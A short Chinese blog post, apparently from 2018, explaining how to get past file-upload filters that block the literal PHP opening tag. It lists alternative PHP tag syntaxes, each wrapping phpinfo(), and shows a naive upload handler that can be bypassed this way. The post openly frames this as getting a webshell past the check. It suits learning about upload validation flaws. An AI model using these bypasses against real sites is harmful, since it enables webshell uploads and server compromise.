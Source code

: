```yaml
---
layout: post                          
title: "[PHP] 用不同的標籤繞過上傳內容檢查"                   
date: 2018-12-03 23:45:00 +0800       
categories: [php, security]         
tags: [php, security]                     
---
```



部分網站對上傳的文件內容進行檢查，如果發現有"<?php"則判斷為webshell。這種情況下，我們可以通過不同的PHP標籤來繞過上傳的內容檢查。

可用的PHP標籤有：

1. `<?php phpinfo(); ?>`
2.  `<? phpinfo(); ?>` 在開啟了`short_open_tag`後即可使用，無版本限制，在PHP5.3及以後默認開啟。
3. `<?=phpinfo()?>` 在PHP5.4前，開啟了`short_open_tag`後即可使用；在PHP5.4及以後，任何情況（包括`short_open_tag=off`）下都支援。
4. `<% phpinfo(); %>` 在開啟了`asp_tags`後即可使用，默認不開啟，PHP7.0及以後移除了這種方式。
5. 
```javascript
<script language="php">phpinfo();</script>
```
在PHP5下支援，PHP7.0及以後移除了這種方式。

---
### 程式碼
```php
<?php
$code = file_get_contents($_FILES['file']['tmp_name']);
if(stripos($code, '<?php') !== false) {
    exit('illegal content');
}
move_uploaded_file($_FILES['file']['tmp_name'], $new_filename);
```
### **資料來源**
[https://tricking.io/card/24/content](https://tricking.io/card/24/content)